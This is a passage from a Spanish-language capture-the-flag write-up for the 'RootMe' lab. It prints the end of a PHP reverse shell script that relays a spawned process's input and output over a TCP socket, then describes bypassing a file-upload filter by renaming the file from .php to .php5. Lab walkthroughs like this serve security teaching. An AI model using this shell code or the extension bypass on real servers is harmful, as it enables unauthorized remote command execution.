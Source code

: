 ```php
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 
```
Intentaremos subir el archivo y veremos que no nos deja
![](https://alvar-yoel.github.io/images/RootMe/php.PNG)

Asique lo que vamos a hacer es cambiar el **php** a **php5**
```shell
parrot-hacking@RootMe:~$ mv reverse.php reverse.php5
```
